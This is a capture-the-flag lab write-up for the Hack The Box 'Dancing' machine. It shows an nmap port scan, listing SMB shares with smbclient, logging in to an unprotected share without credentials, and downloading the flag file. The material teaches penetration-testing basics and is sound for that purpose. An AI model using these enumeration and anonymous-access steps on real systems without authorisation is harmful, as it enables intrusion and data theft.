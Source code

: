 # Dancing
#startingpoint
#veryeasy 
#smb

Firstly, we start by opening a VPN connection and launching the VM on HTB.

### Reconnaissance
The first step in any penetration test is to gather information about the target system. In this case, we are trying to identify open ports and services on the target host with the IP address 10.129.193.6. We use the `nmap -p- -sV $TARGET` command with the `-p-` option to scan all possible TCP ports and the `-sV` option to display service version information. The output shows that there are some open ports, after performing a little of research we realize that this ports corresponds to a machine which is likely to be running a SMB service.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-11-16 11:31 CET
Nmap scan report for 10.129.64.157
Host is up (0.068s latency).
Not shown: 65524 closed tcp ports (conn-refused)
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
### SMB Protocol

First of all we need to see all the shares that are inside the SMB server so we run `smbclient -L $TARGET`
```
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```
Now we need to test all of them one by one in order to see if there is one which allow us to enter without the need of credentials. After testing all of them we realize that the last one doesn't need credentials so we enter using the command `smbclient  //${TARGET}/WorkShares`

Once inside we check the available information, where we will find the flag that we are looking for:
```
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

		5114111 blocks of size 4096. 1732664 blocks available
smb: \> ls Amy.J\ 
  .                                   D        0  Mon Mar 29 11:08:24 2021
  ..                                  D        0  Mon Mar 29 11:08:24 2021
  worknotes.txt                       A       94  Fri Mar 26 12:00:37 2021

		5114111 blocks of size 4096. 1732664 blocks available
smb: \> ls James.P\
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

		5114111 blocks of size 4096. 1732664 blocks available

```

To retrieve the flag file we run this command `smb: \> get James.P\flag.txt`

